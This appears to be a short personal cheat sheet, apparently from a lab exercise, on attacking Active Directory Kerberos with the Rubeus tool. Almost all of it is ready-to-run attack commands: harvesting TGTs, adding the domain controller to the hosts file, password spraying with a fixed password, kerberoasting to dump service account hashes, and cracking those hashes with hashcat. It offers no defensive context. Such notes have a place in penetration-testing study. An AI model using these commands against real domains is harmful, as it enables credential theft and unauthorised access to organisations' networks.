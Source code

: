 Used to attack Kerberos.

`https://github.com/GhostPack/Rubeus`

---

### Harvest for TGTs every 30 seconds
`Rubeus.exe harvest /interval:30`

---

### Bruteforcing and Password Spraying

add the DC domain name to windows host file
```
echo 10.10.53.4 CONTROLLER.local >> C:\Windows\System32\drivers\etc\hosts
```


password spray against found users with given password
```
Rubeus.exe brute /password:Password1 /noticket
```

---

### kerberoasting

Dump Kerberos hash of any kerberoastable users
```
Rubeus.exe kerberoast
```

place hash in txt file on attack machine and crack with hashcat
```
hashcat -m 13100 -a 0 crackme.txt wordlist.txt 
```